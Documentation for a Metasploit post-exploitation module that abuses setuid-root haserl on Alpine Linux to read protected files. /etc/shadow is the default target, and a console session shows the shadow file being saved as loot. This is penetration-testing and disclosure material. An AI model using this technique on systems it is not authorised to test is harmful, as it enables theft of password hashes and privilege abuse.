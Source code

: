 ## Vulnerable Application

[Haserl](http://haserl.sourceforge.net/) is an unmaintained tool to use LUA as CGI in web servers.
On Linux, when haserl is suid root, it will attempt to drop its privilege to the uid/gid of the owner of the cgi script,
similar to suexec in Apache.

Haserl could have been a thing of the past, but it's used in Alpine Linux'
[Alpine Configuration
Framework](https://wiki.alpinelinux.org/wiki/Alpine_Configuration_Framework_Design),
which is commonly used on this distribution.

This module exploits the fact that calling haserl on a file will make it not only change the effective UID,
but also display the content of the file.

### Prerequisites

1. Install Alpine Linux
2. Install haserl

## Verification Steps

1. Start msfconsole
2. Get a shell
3. Do: `use post/linux/gather/haserl_read`
4. Set `SESSION`
5. Do: `run` or `exploit`
6. **Verify** that the file was successfully downloaded

## Options

### RFILE

Remote file to download, defaults to `/etc/shadow`.


## Scenarios

```
msf6 > use post/linux/gather/haserl_read 
msf6 post(linux/gather/haserl_read) > show options 

Module options (post/linux/gather/haserl_read):

   Name     Current Setting         Required  Description
   ----     ---------------         --------  -----------
   BIN      /usr/bin/haserl-lua5.1  yes       Haserl binary
   RFILE    /etc/shadow             yes       File to read
   SESSION  1                       yes       The session to run this module on.

msf6 post(linux/gather/haserl_read) > run

[!] SESSION may not be compatible with this module.
[+] Found set-uid haserl: /usr/bin/haserl-lua53
[+] Shadow saved in: /home/user/.msf4/loot/20210301204020_default_192.168.138.113_haserl_shadow_107368.txt
[*] Post module execution completed
msf6 post(linux/gather/haserl_read) >
```

## Reference
1. https://twitter.com/steaIth/status/1364940271054712842
